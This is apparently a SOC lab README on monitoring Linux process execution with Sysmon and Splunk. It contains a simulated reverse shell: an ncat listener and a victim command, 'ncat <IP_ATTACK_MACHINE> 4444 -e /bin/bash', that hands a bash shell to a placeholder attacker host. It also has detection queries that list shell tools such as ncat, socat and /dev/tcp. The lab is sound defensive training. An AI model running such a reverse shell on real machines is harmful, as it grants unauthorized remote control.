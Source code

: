 # Monitoring and Investigation of Suspicious Process Execution (Linux)

## Inputs Configuration for Splunk

```sh
nano /opt/splunkforwarder/etc/system/local/inputs.conf
```

```sh
[monitor:///var/log/sysmon.log]
index = linux_os_logs
sourcetype = sysmon
disabled = false
```

- Installation of **Sysmon for Linux** with an advanced XML configuration to detect multiple MITRE ATT&CK techniques.

## Install Sysmon for Linux

- [Sysmon for Linux](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

```sh
# Download Microsoft packages repo
wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb

# Update package list
sudo apt-get update

# Install Sysmon for Linux
sudo apt-get install sysmonforlinux -y
```

## Configure Sysmon with Advanced Rules

#### Create the configuration file

```sh
nano sysmon-config.xml
```

## Paste the advanced XML configuration

- This configuration covers multiple `MITRE ATT&CK` techniques for `process creation, network connections, file creation, persistence, environment injection, and process termination`.

- [Recommended base config: MSTIC Sysmon Config](https://raw.githubusercontent.com/microsoft/MSTIC-Sysmon/main/linux/configs/main.xml)

[https://github.com/thierno953/SOC_ANALYST/blob/main/Splunk_Ubuntu/sysmon-config.xml](https://github.com/thierno953/SOC_ANALYST/blob/main/Splunk_Ubuntu/sysmon-config.xml)

## Start Sysmon with the configuration

```sh
sudo sysmon -i /etc/sysmon-config.xml
sudo systemctl restart sysmon
sudo systemctl status sysmon

sudo sysmon -c /etc/sysmon-config.xml

sudo journalctl -u sysmon.service -f
```

## Simulate an Attack (Reverse Shell)

#### On attacker machine

```sh
sudo apt install ncat net-tools -y
sudo ncat -lnvp 4444 -k
```

#### On victim machine

```sh
sudo apt install ncat net-tools -y
ncat <IP_ATTACK_MACHINE> 4444 -e /bin/bash
```

#### Verify the connection

```sh
lsof -i :4444
netstat -tulnp | grep 4444
```

## Analysis in Splunk

#### a. All Sysmon logs:

```sh
index="linux_os_logs" process=sysmon
```

![Splunk](/Splunk_Ubuntu/assets/06.png)

#### b. Suspicious command execution:

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command
(ncat OR netcat OR "bash -i" OR curl OR wget OR "python -c" OR "perl -e" OR "php -r" OR socat OR "/dev/tcp" OR "chmod 777" OR scp)
```

![Splunk](/Splunk_Ubuntu/assets/07.png)

#### c. Command stats by host and time:

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command
| rex field=_raw "(?i)(?P<command_executed>ncat|netcat|bash -i|curl|wget|python -c|perl -e|php -r|socat|/dev/tcp|chmod 777|scp)"
| stats count by host, command_executed, _time
| sort - count
```

![Splunk](/Splunk_Ubuntu/assets/08.png)

#### d. Timechart of suspicious commands:

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command
| rex field=_raw "(?i)(?P<command_executed>ncat|netcat|bash -i|curl|wget|python -c|perl -e|php -r|socat|/dev/tcp|chmod 777|scp)"
| timechart span=30m count by command_executed
```

![Splunk](/Splunk_Ubuntu/assets/09.png)

## Persistence monitoring (cron/systemd changes):

#### a. Cron and systemd events per host

```sh
index="linux_os_logs" process=sysmon
| where like(_raw, "%/etc/cron%") OR like(_raw, "%/etc/systemd/system%")
| stats count by host, _raw, _time
| sort -_time
```

![Splunk](/Splunk_Ubuntu/assets/10.png)

#### b. Cron/systemd events aggregated hourly

```sh
index="linux_os_logs" process=sysmon
| where like(_raw, "%/etc/cron%") OR like(_raw, "%/etc/systemd/system%")
| bin _time span=1h
| stats count by _time, host
| sort _time
```

![Splunk](/Splunk_Ubuntu/assets/11.png)

#### c. Timechart of cron/systemd events

```sh
index="linux_os_logs" process=sysmon
| where like(_raw, "%/etc/cron%") OR like(_raw, "%/etc/systemd/system%")
| timechart span=1h count by host
```

![Splunk](/Splunk_Ubuntu/assets/12.png)

#### d. Suspicious commands executed

```sh
index="linux_os_logs" process=sysmon
| rex field=_raw "(?i)(?P<command_executed>ncat|netcat|bash -i|curl|wget|python -c|perl -e|php -r|socat|/dev/tcp|chmod 777|scp)\s(?P<command_args>.*)"
| stats count by host, command_executed, command_args, _time
| sort -count
```

![Splunk](/Splunk_Ubuntu/assets/13.png)
